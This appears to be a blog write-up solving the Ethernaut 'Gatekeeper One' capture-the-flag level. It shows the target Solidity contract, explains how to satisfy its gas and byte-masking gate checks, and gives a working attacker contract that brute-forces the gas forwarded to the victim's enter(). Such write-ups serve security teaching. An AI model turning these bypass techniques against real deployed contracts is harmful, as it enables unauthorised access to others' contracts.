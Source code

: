 ```yaml
---
title: Ethernaut - Gatekeeper One - Solution
date: '2024-05-31'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Gatekeeper One CTF
---
```


# Ethernaut - Gatekeeper One - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

## Solution

The goal of this level is to register yourself as an `entrant`.

To pass `gateOne()`, we need to call `enter()` from a contract rather than from our EOA.

To pass `gateTwo()`, we need to forward a very specific amount of gas during the call to `enter()` such that the `gasleft()` when entering `gateTwo()` is a multiple of 8191.
While we could reverse-engineer this gas amount using, e.g., the Remix debugger, it's easier to simply bruteforce our way in, forwarding a different amount of gas with each try.

To pass `gateThree()`, let's take a closer look at the three `require` statements, starting with part 3:
Suppose our player address is 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4.
Using chisel, we can then see that the right-hand side of part 3 evaluates to:
```
➜ address player = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4;
➜ uint16(uint160(player))
Type: uint16
├ Hex: 0xddc4
├ Hex (full word): 0x000000000000000000000000000000000000000000000000000000000000ddc4
└ Decimal: 56772
 ```

 Part 3 requires this to be equal to the full word of `uint32(uint64(_gateKey))`.
 In other words, the last 4 bytes of our `_gateKey` should be 0000ddc4.

 Part 2 tells us that at least one character of the first 4 bytes of our `_gateKey` must not be zero.
 See, for example:

```
➜ bytes8 key = 0x5931b4ed56ace4c4;
➜ uint64(key)
Type: uint64
├ Hex: 0x5931b4ed56ace4c4
├ Hex (full word): 0x0000000000000000000000000000000000000000000000005931b4ed56ace4c4
└ Decimal: 6427117074688828612
➜ uint32(uint64(key))
Type: uint32
├ Hex: 0x56ace4c4
├ Hex (full word): 0x0000000000000000000000000000000000000000000000000000000056ace4c4
└ Decimal: 1454171332
```

Finally, part 1 tells us that the last 4 bytes must be of the form 0000xxxx, where "xxxx" can be two arbitrary bytes. 
Notice that this is a similar requirement to part 3, but is actually less restrictive, since part 3 constraints those last two bytes to be exactly the last two bytes of our player's account address.
In that sense, the level's contraints would stay exactly the same, even if part 1 were deleted.

As a conclusion, one possible `_gateKey` is 0x1234abcd0000ddc4, assuming that our player address is 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4.

With this information, we can solve the challenge using the following attacker:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOneAttacker {
    address public immutable VICTIM;

    constructor(address victim) {
        VICTIM = victim;
    }

    function attack(bytes8 gateKey) external {
        for (uint256 i; i < 8191; i++) {
            (bool success, ) = VICTIM.call{gas: i + 5 * 8191}(abi.encodeWithSignature("enter(bytes8)", gateKey));
            if (success) {
                break;
            }
        }
    }
}
```

In the above contract, notice that we added a sufficiently high multiple of 8191 to our forwarded amount of gas so that we ensure that there's sufficient gas to execute the entire function call.